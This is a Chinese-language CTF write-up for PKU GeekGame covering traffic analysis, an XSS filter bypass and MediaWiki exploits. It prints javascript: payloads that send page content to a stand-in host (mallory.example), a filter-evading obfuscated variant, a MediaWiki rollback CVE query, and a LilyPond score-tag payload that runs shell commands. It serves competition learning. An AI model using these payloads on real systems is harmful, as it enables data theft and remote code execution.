 虽然比hackergame难一丢丢，但是还是很有意思的

## 企鹅文档

直接就是打腾讯了，tqqqqql

![image-20221205113919051](PKU GeekGame.assets/image-20221205113919051.png)

直接访问文档是没有权限的

> **第二阶段提示：**
>
> - 本题其实是一道流量分析题。
> - 在 Chrome 开发者工具的 Network 功能中，点击放大镜按钮可以搜索流量中的内容。

根据提示看流量内容

![image-20221205114843448](PKU GeekGame.assets/image-20221205114843448.png)

搜索即可看到全部内容，下面两个拼凑在一起才是全的

得到链接

```
https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next
```

![image-20221205115834862](PKU GeekGame.assets/image-20221205115834862.png)

又给出了har流量包文件

放到**Network**中打开，根据格式写出exp肉眼能看

```python
a = [24,25,26,34,35,37,38,45,46,55,56,57,58,67,68,78,79,88,89,90,91,111,112,113,123,124,134,135,145,146,156,157,167,168,177,178,179,180,199,200,201,202,213,214,221,222,223,224,225,231,232,235,236,243,244,245,247,248,265,266,267,269,270,275,276,279,280,286,287,290,291,298,299,300,301,302,312,313,319,320,321,322,323,344,345,346,354,355,365,366,374,375,376,387,388,398,399,410,411,412,429,430,434,435,440,441,445,446,451,452,456,457,462,463,465,467,468,473,474,475,476,477,478,479,484,485,486,488,489,490,495,496,500,501,518,519,520,521,528,529,532,533,539,540,541,542,543,544,550,551,562,563,564,565,585,586,595,596,597,598,605,606,609,610,616,617,620,621,627,628,629,630,631,632,638,639,642,643,649,650,653,654,671,672,674,675,676,683,684,685,687,688,694,695,698,699,705,706,715,716,717,718,738,739,740,741,748,749,752,753,759,760,761,762,763,764,770,771,782,783,784,785,803,804,808,809,814,815,816,819,820,825,826,827,828,830,831,836,837,839,840,841,842,847,848,851,852,853,858,859,863,864,869,870,874,875,892,893,894,895,902,903,906,907,913,914,917,918,924,925,928,929,936,937,938,939,960,970,971,980,981,982,983,984,992,993,1003,1004,1014,1015,1017,1026,1027,1046,1047,1048,1049,1056,1057,1060,1061,1067,1068,1069,1079,1080,1081,1092,1093,1094,1100,1101,1104,1105,1112,1113,1114,1115,1133,1134,1136,1137,1138,1145,1146,1149,1150,1156,1157,1160,1161,1167,1168,1169,1170,1171,1178,1179,1188,1189,1190,1191,1211,1212,1213,1214,1221,1222,1225,1226,1232,1233,1236,1237,1243,1244,1247,1248,1255,1256,1257,1258,1276,1277,1278,1279,1280,1287,1288,1291,1292,1298,1299,1302,1303,1309,1310,1313,1314,1320,1321,1324,1325,1343,1344,1345,1346,1347,1353,1354,1365,1366,1367,1368,1379,1380,1386,1387,1388,1389,1390,1409,1410,1411,1412,1419,1420,1423,1424,1430,1431,1434,1435,1441,1442,1445,1446,1453,1454,1455,1456,1474,1475,1477,1478,1479,1486,1487,1488,1490,1491,1497,1498,1501,1502,1508,1509,1518,1519,1520,1521,1541,1542,1543,1544,1551,1552,1555,1556,1562,1563,1564,1565,1566,1567,1573,1574,1585,1586,1587,1588,1609,1610,1611,1621,1622,1632,1633,1640,1641,1642,1643,1644,1650,1651,1654,1655,1661,1662,1665,1666,1673,1674,1675,1677,1678,1694,1695,1696,1697,1698,1699,1706,1707,1710,1711,1717,1718,1721,1722,1728,1729,1730,1731,1732,1739,1740,1743,1744,1750,1751,1754,1755,1760,1761,1762,1763,1764,1765,1782,1783,1786,1787,1793,1794,1797,1798,1804,1805,1808,1809,1816,1817,1818,1819,1820,1830,1831,1837,1838,1839,1840,1841,1859,1860,1861,1862,1863,1864,1870,1872,1873,1875,1883,1884,1894,1895,1905,1906,1916,1917,1926,1927,1928,1929,1948,1949,1950,1951,1958,1959,1962,1963,1969,1970,1971,1972,1973,1974,1980,1981,1992,1993,1994,1995,2013,2014,2015,2016,2017,2024,2025,2028,2029,2035,2036,2039,2040,2046,2047,2050,2051,2057,2058,2061,2062,2080,2081,2082,2083,2090,2091,2094,2095,2101,2102,2112,2113,2116,2117,2124,2125,2126,2127,2146,2147,2148,2149,2156,2157,2160,2161,2167,2168,2169,2170,2171,2172,2178,2179,2190,2191,2192,2193,2211,2212,2213,2214,2215,2222,2223,2226,2227,2233,2234,2237,2238,2244,2245,2248,2249,2255,2256,2259,2260,2280,2290,2291,2300,2301,2302,2303,2304,2312,2313,2323,2324,2334,2335,2337,2346,2347,2365,2366,2367,2378,2379,2389,2390,2401,2402,2403,2411,2412,2422,2423,2431,2432,2433,2453]
for i in range(len(a)):
    a[i] = (int(a[i] / 11) * 10) + a[i] % 11
for i in range(len(a)):
    if str(a[i])[:-1] == str(a[i - 1])[:-1]:
        if int(str(a[i])[-1:]) - int(str(a[i - 1])[-1:]) != 1:
            for j in range(int(str(a[i])[-1:]) - int(str(a[i - 1])[-1:])):
                print(" ",end="")
        print("0",end="")
    elif str(a[i])[:-1] != str(a[i - 1])[:-1] and int(str(a[i])[:-1]) - int(str(a[i - 1])[:-1]) == 1:
        print("")
        for j in range(int(str(a[i])[-1:])):
            print(" ",end="")
        print("0",end="")
    else:
        print("")
        print("")
        for j in range(int(str(a[i])[-1:])):
            print(" ",end="")
        print("0",end="")
#flag{WeAreNotSponsoredByTencent}
```

![image-20221205120014692](PKU GeekGame.assets/image-20221205120014692.png)

## 给钱不要

简单阅读源码后可知

你给**xssbot**发送一个**tag**，bot就访问梗图网盘输入你的**tag**然后拿到图片

在梗图网盘输入完整的**url**是可以跳转到该**url**的

而**xssbot**会先通过[omnibox](chrome://omnibox/)来判断你发送的是**url  unknown** or **query**

若为**url**会停止访问

这里引用下别人的wp(毕竟没看源码...)

> ### 给钱不要！
>
> 访问「梗图网盘」，阅读前端的源代码，可见 XSS 攻击的漏洞：
>
> ```
> function go() {
>   location.href = document.getElementById("filename").value + ".jpg";
> }
> ```
>
> 只要在文本框中填入 `http:` URL，就能将网页重定向至攻击者的服务器；而填入 `javascript:` URL，就能在网页上运行攻击代码。例如，下面的 URL 能将包含 Flag 的内容发送给攻击者：
>
> ```
> javascript:location.href='http://mallory.example/?'+encodeURI(document.body.innerHTML)//
> ```
>
> 分析 XSS Bot 源代码 `prob06-xssbot.py`，可见其在填入文本框前，通过 `chrome://omnibox` 功能检测输入字符串的「安全性」。该网页是 Chrome 浏览器的地址栏调试工具。只有被 Chrome 识别为「query」或「unknown」的字符串才能被 XSS Bot 接受。访问该调试工具，输入上述 `javascript:` 代码，得知 Chrome 将其识别为「url」，从而被 XSS Bot 拒绝。
>
> 经反复测试，可发现不是所有的 `javascript:` 代码都会识别为「url」，有的代码会识别为「unknown」。事实上，通过 [Chromium 源代码](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#304)可以找到其识别逻辑：
>
> ```
> // Treat javascript: scheme queries followed by things that are unlikely to
> // be code as UNKNOWN, rather than script to execute (URL).
> if (RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
>   return metrics::OmniboxInputType::UNKNOWN;
> }
> ```
>
> 从正则表达式可见，如果代码中不包含 `;=()."` 等字符，就是安全的，能被 XSS Bot 接受。
>
> > 也可以阅读[这篇知乎回答](https://www.zhihu.com/answer/2722866208)：
> >
> > [![img](https://github.com/PKU-GeekGame/geekgame-2nd/raw/master/players_writeup/622/assets/zhihu-omnibox.png)](https://www.zhihu.com/answer/2722866208)
>
> 要让代码中避免上述字符，可将代码写成字符串字面量，其中的不安全字符都用 `\x__` 进行转义，再把字符串用 `eval()`、`Function()` 等方式求值。单引号是一个安全字符，可用其表示字符串字面量。调用函数时不用括号较为麻烦，但也有[若干种方法](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)，如通过[带标签的模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Template_literals#带标签的模板字符串)。最终的攻击代码如下：
>
> ```
> javascript:Function`location\x2ehref\x3d'http://mallory\x2eexample/?'+encodeURI\x28document\x2ebody\x2einnerHTML\x29```//
> ```
>
> 搭建好服务器，用上述网址可以获得 Flag 2。要获得 Flag 1，需要使字符串识别成最安全的「query」，并将网页重定向至以 `GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%` 为标题的攻击者页面。
>
> 进一步分析 Chromium 源代码，寻找识别为「query」的条件。注意到 XSS Bot 通过 `remove_protocols()` 函数，帮我们在检测前移除了 URL 前的 `http://`。可以发现，如果[将 IPv4 地址用十进制数表示](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#450)，并加入莫名其妙的用户名部分，就能让 URL 变得安全：
>
> ```
> http://x:@3221226222/?
> ```
>
> 搭建好服务器，用上述网址可以获得 Flag 1。

## 私有笔记

题目的种种页面都提示了本题就是一个CVE

第一个flag在历史记录里,第二个需要rce

### flag1

>  [CVE-2021-45038](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45038) An issue was discovered in MediaWiki before 1.35.5, 1.36.x before 1.36.3, and 1.37.x before 1.37.1. By using an action=rollback query, attackers can view private wiki contents.

在 [MediaWiki 安全公告](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)中找到该漏洞的利用方式，得知可通过以下链接获取 Flag 页面的内容：

```
https://prob07-deadbeef.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}
```

![image-20221205121317610](PKU GeekGame.assets/image-20221205121317610.png)

利用给出的账号密码登陆

该版本**MediaWiki**并未爆出上面rce的漏洞，只好从插件入手

![image-20221205121532404](PKU GeekGame.assets/image-20221205121532404.png)

可以看到这个插件

在CVE中寻找漏洞可以找到

> [CVE-2020-17353](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17353) scm/define-stencil-commands.scm in LilyPond through 2.20.0, and 2.21.x through 2.21.4, when -dsafe is used, lacks restrictions on embedded-ps and embedded-svg, as demonstrated by including dangerous PostScript code.

在[Wikimedia Phabricator](https://phabricator.wikimedia.org/T257062)可以该漏洞的利用方式

```scheme
<score>\new Staff <<{c^#

(number->string (system "echo `cat /flag2` > /var/www/html/1.txt"))

}>></score>
```

访问即可

```
https://prob07-us5pyjli.geekgame.pku.edu.cn/1.txt
```


